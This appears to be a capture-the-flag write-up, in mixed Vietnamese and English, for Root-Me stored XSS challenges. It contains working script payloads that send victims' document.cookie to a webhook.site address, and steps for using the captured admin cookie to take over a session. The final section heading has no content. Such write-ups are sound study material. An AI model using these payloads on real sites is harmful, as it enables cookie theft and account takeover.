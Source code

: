 # 1. Web application vulnerabilities

## [XSS Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)

### Steps to reproduce

    - Tạo webhook @ https://webhook.site
    - Start Challenge
    - Visit http://challenge01.root-me.org/web-client/ch18/
    - Chọn bất kỳ title
    - Enter message payload: 
    ```
    <h1>xss</h1>
    <script>alert("XSS")</script>
    <script>document.write("<img src=https://webhook.site/15665075-b653-4dc7-bdc2-10b1ace815cf"+document.cookie+"/>");</script>
    <script>new Image().src="https://webhook.site/15665075-b653-4dc7-bdc2-10b1ace815cf?cookie="+document.cookie</script>
    ```
    - Tấn công XSS đơn giản
    - Đợi bot tải hình ảnh và do đó
    - Copy the flag in the captured request cookie

## [XSS Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)

### Steps to reproduce

    - Tạo webhook @ https://webhook.site
    - Start Challenge
    - Mở burp suite
    - Visit http://challenge01.root-me.org/web-client/ch19/
    - Chọn bất kỳ title
    - Chọn bất kỳ message 
    - Header Cookie playload
    ```
    status=invite"><h1>xss</h1>
    status=invite"><script>alert("XSS")</script>
    <script>new Image().src="https://webhook.site/15665075-b653-4dc7-bdc2-10b1ace815cf?cookie="+document.cookie</script>
    ```
    - Đợi bot tải hình ảnh và do đó
    - Copy the admin cookie in the captured request
    - Add the document cookie to the ADMIN_COOKIE
    - Visit the admin section: http://challenge01.root-me.org/web-client/ch19/?section=admin
    - Copy the pass

## [XSS - Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)
